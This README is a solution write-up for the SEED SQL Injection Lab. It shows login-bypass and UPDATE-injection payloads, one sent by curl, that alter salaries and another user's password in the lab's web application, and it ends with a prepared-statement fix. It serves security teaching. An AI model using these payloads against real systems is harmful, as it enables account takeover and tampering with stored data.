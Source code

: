 # SEED-SQL-Injection-Lab
Solution of SEED SQL Injection Lab.

Lab Tasks

Task 1: Get Familiar with SQL Statements

$ mysql -uroot -pseedubuntu

mysql> show databases;

mysql> use Users;

mysql> show tables;

mysql> select * from credential where name = ‘Alice’;

Task 2.1: SQL Injection Attack from webpage.

Type “ admin’ # ” in the Username field and leave empty the password field

Task 2.2: SQL Injection Attack from command line.

Write Code on Terminator in Seed Lab:

$ curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';

The Highlighted part shows the information of all the employees that is obtained through command line instruction.

Task 3.1: Modify your own salary.

As shown in the Edit Profile page, employees can only update their nicknames, emails, addresses, phone numbers, and passwords; they are not authorized to change their salaries. Assume that I am Alice. I want to increase my own salary by exploiting the SQL injection vulnerability in the Edit-Profile page. I know that salaries are stored in a column called salary.

I will use the statement in the Nickname field: ', Salary=10000 where name = ‘Alice’ #

Salary before statement:

Salary after statement:

Task 3.2: Modify other people’ salary.

I want to reduce Boby’s salary to 1 dollar.

Use statement in Alice’s profile editor: ', Salary=1 where name = ‘Boby’ #

Salary before statement:

Salary after statement:

Task 3.3: Modify other people’ password.

I want to change Boby’s password that I can log into his account and do further damage.

It uses SHA1 hash function to generate the hash value of password.

Use the following statement:

echo -n “tedwashere” | sha1sum

Copy the code you get and paste in Alice’s profile editor as the following statement:

', password=(code you copied) where name = ‘Boby’ #

Boby’s password before Statement:

Boby’s password after Statement:

Task 4: Countermeasure — Prepared Statement.

seed@VM:-$ /var/www/SQLInjection/ bash: /var/www/SQL Injection/: Is a directory seed@VM:-$ cd /var/www/SQLInjection/

seed@VM: .../SQLInjections ls

seed@VM:.../SQLInjections subl safe_home.php

seed@VM:.../SQLInjection$ subl unsafe_home.php

After exicute these codes copy the code from line 72 to 80 in SAFE_HOME_PHP and paste over the line 73 to 80 in UNSAFE_HOME_PHP file. Also remove the extra unnecessary code from 81 to 100 in UNSAFE_HOME_PHP file. Then save the code file.

After saving, Run these codes in terminal.

[10/30/21] seed@VM: .../SOLInjection$ cd ..

[10/30/21] seed@VM:.../www$ cd..

[10/30/21] seed@VM:/var$ cd

[10/30/21] 11seed@VM:/$ sudo service apache2 reset

[10/30/211seed@VM:/$
